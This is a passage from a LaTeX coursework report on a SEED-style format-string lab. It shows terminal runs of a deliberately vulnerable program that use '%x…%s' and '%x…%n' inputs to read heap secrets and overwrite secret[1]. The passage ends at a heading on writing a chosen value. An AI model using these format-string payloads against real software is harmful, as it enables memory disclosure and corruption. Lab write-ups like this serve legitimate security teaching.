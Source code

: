 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=bash,
  breaklines=true,
	caption=Example of printing out memory,
	label=printf:crash,
  float=tb
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf8b258c (on stack)
The variable secret’s value is 0x 95fd008 (on heap)
secret[0]’s address is 0x 95fd008 (on heap)
secret[1]’s address is 0x 95fd00c (on heap)
Please enter a decimal integer
157274124
Please enter a string
%x.%x.%x.%x.%x.%s.%s   
bf8b2590.bf8b2610.bf8b2604.0.0.U.D
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x55
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]}}

In order to change value of the second element of \texttt{secret} array, similar approach must be taken as for printing it, i.e. we provide address of the value that interests us to be stored int \texttt{int\_input} variable, then we must pop elements of the stack by providing format specifier with a number of \texttt{\%x}s, and then instead of printing value of heap memory in location contained in the next element on the stack, we can use \texttt{\%n} to modify the memory location. Example is shown in listing~\ref{printf:change}. As we can see, we are able to change the value of the secret from 0x55 to 0x1a.

\vspace{1em}
\lstset{
	captionpos=b,
	frame=single,
	language=BASH,
	caption=Example of overwriting memory,
	label=printf:change,
	breaklines=true,
  float=tb
}
\begin{lstlisting}
seed@seed-desktop:~/cwk2$ ./vul
The variable secret’s address is 0xbf83550c (on stack)
The variable secret’s value is 0x 9448008 (on heap)
secret[0]’s address is 0x 9448008 (on heap)
secret[1]’s address is 0x 944800c (on heap)
Please enter a decimal integer
155484172
Please enter a string
%x%x%x%x%x%n
bf835510bf835590bf83558400
The original secrets: 0x44 -- 0x55
The new secrets:      0x44 -- 0x1a
\end{lstlisting}

\subsubsection{Changing the value of \texttt{secret[1]} to a pre-determined value}
\end{document}
